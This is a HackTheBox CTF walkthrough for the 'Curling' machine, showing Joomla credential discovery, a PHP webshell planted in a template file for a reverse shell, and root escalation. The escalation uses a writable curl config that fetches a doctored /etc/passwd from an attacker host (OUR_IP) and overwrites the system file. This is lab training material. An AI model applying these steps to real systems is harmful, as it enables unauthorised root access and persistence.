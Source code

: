 # Curling Walkthrough (HackTheBox) by [yag1n3](https://github.com/yaguine)

![](./images/banner.png)

### objetives
* user flag
* root flag

---

## Reconnaissance

### nmap 

![](./images/image1.png)  

### website

![](./images/image2.png)  

we see that it's using Joomla thanks to **Wappalizer**  
let's check the source code  

![](./images/image3.png)  

omg... someone has to be fired  
we access that endpoint, there is a string that looks like base64  

![](./images/image4.png)  

we decode it and it surely looks like a password  

on the posts posted on the root of the website, there is one signed as "Floris"  
lets try that username and the prior discovered password...and we are in !!  

---

## Joomla Exploitation

now we are on the website  
first i thought about maybe a CVE for this version of Joomla  
on *System --> System Information* we discover that we are using *Joomla! 3.8.8 Stable*  
the only interesting vulnerability that i am able to find is a LFI tagged as CVE-2018-12712  
the problem is that we need the server to be using PHP 5.3, but it is using 7.2.24  

![](./images/image5.png)  

let's try other thing  

searching ways to exploit Joomla, i end up in [this article](https://www.hackingarticles.in/joomla-reverse-shell/)  
we discover that we can use templates to execute arbitrary PHP code  
this is the proccess :
1. we go to Extensions --> Templates --> Templates
2. we choose whatever file, *error.php* for instance
3. we substitute the php code for our own (a php webshell in this case)
![](./images/image6.png)  
4. we go access the endpoint */templates/<TEMPLATE_NAME>/error.php*
5. we execute code with the url parameter "cmd"

now we use it to get a reverse shell with our favorite reverse shell method

---

## User Flag

after stabilizating the shell, we resume our journey  
*user.txt* is inside the home directory of "floris", but we can't read it  
but there is another thing inside this directory : *password_backup*  
this file contains a **hex dump**  

![](./images/image7.png)  

we use `xxd -r password_backup > pass` to convert it into its binary form  
this is a challenge that concatenates file compressions, so i share the image with the proccess and the order  

![](./images/image8.png)  

the general idea is to use the command "file" to know the type of file, then change its extension to the expected one for this type, and then decompress it  
repeat the process till you get the file "password.txt", and now we can log in via ssh as "floris"  

---

## Root flag

on floris' home directory there is a folder called "admin-area"  

![](./images/image9.png)  

so there are two files, on points to localhost's url, and the other one is an html file  
i wasn't quite aware of what was happening till y started enumerating and i used **pspy** to spy on the processes running on the machine  

![](./images/image10.png)  

so, the user **root** is using curl with the option -K to make an http request and saving it on a file  
here i find [documentation](https://curl.se/docs/manpage.html) about the "curl" command and this is how the -K option works  

![](./images/image11.png)  

in summary : -K lets you specify a config file with options about how the request is going to be sent  
one of the options you can choose is the output file  
after some tests i confirm that this prevails over the output file chosen with the -o option  
so, since we have write permissions over the config file, we can use it to escalate privileges in the following way :

1. we write a modified version of the /etc/passwd of the machine, but adding another user with its password's hash (we use openssl to generate the hash)
2. this user has to have 0 as user and group id
3. we start an http server on our machine on the folder were the modified passwd file is stored
4. we change the config file */home/floris/admin-area/input* to look like this
```
url = "http://OUR_IP/passwd"
output = "/etc/passwd"
```
5. we wait till we receive the http request, and now we will be able to access the machine as our chosen user and password with root privileges
6. enjoy your success !!


